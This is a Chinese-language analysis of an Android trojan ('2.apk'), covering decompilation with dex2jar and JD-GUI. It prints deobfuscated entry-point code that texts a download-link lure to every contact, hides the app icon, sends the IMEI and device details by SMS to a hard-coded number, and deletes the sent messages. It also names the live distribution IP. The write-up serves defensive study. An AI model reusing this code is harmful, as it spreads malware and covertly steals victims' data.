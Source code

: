 apk文件中包含了程序运行的二进制文件和主要的资源文件。我们需要将二进制文件反编译成程序代码，才能够看到其具体的实现逻辑。由于该程序的代码进行了代码混淆，我们又没有途径拿到作者混淆时产生的map文件，因此给后续的分析带来了一些麻烦。

dex的反编译相比还是比较简单的。反编译工具也有很多，我当然选择了开源的dex2jar（[see on github](https://github.com/pxb1988/dex2jar)）和JD-GUI([see on github](https://github.com/java-decompiler/jd-gui))了。

用法也是相对简单：  
1. ./dex2jar/dex2jar.sh 2.apk，生成 2_dex2jar.jar
2. ./jd-gui/jd-gui，弹出图形界面，选择 File-Open File... ，打开 2_dex2jar.jar

我们就看到了代码的结构。  
![代码的结构](./code_dir_structure.png)
由于代码混淆给分析带来了不少的麻烦，不过没关系。代码量少，我们硬着头皮看也能看懂。


那接下来就看看这个病毒的代码实现吧。

## 病毒代码分析

### 一、 基本信息
病毒名称：2.apk
病毒类型：木马
样本MD5：
样本长度：212937 字节
发现时间：206.12.26
感染系统：Android Froyo 2.2.x及以上


### 二、 概述

三、 样本特征
1. 敏感权限
获取短信息，获取联系人，发送短信，发送邮件

2. 入口点和恶意模块
我们从程序的入口类MainActivity.java的onCreate()函数开始分析：
> 注：以下代码非程序原始代码，是根据混淆之后的代码人工去混淆后的代码，可能和源码有一定差异，但是程序功能没有发生改变，

com/phone2/stop/activity/MainActivity.java：

```java
protected void onCreate(Bundle paramBundle) {
    super.onCreate(paramBundle);
    // 1.从数据库读取联系人并发送内容为“***：酒筵,恭请阁下光临，邀请函： 103.226.126.27/15/2.apk”的短信
    readContacts();
    setContentView(R.layout.activity_main);
    // 2. 隐藏应用程序图标。如果设置一个app的mainActivity为COMPONENT_ENABLED_STATE_DISABLED状态,则不会再launcher的程序图标中发现该app
    getPackageManager().setComponentEnabledSetting(getComponentName(), PackageManager.COMPONENT_ENABLED_STATE_DISABLED, PackageManager.DONT_KILL_APP);
    // 设置加密用的字符串
    SharedPreferencesManagerUtil.setStaker();
    SharedPreferencesManagerUtil.initPhoneNumber(this);
    SharedPreferencesManagerUtil.setSendEmailAccount(this);
    SharedPreferencesManagerUtil.setReciveEmailAccount(this);
    SharedPreferencesManagerUtil.setSendEmailPwd(this);
    SharedPreferencesManagerUtil.initEndTime(this);
    if (!SharedPreferencesManager.getInstance(this).getHasSendPhoneInfo()) {
      //3. 获取手机IMEI信息、手机型号、手机品牌、系统版本等信息，并将这些消息裁剪成70个字符后，替换掉敏感字符，发送给13097169061
      String str = ((TelephonyManager)getSystemService(Context.TELEPHONY_SERVICE)).getDeviceId();
      SendTextMessageHelper.requestSendTextMessage("" + str + "\n" + phoneInfoHelper.getPhoneInfo(), this);
      SharedPreferencesManager.getInstance(this).setHasSendPhoneInfo(true);
    }
    // 4. 删除已经发送的消息记录
    OtherHelper.deleteMessage(this);
```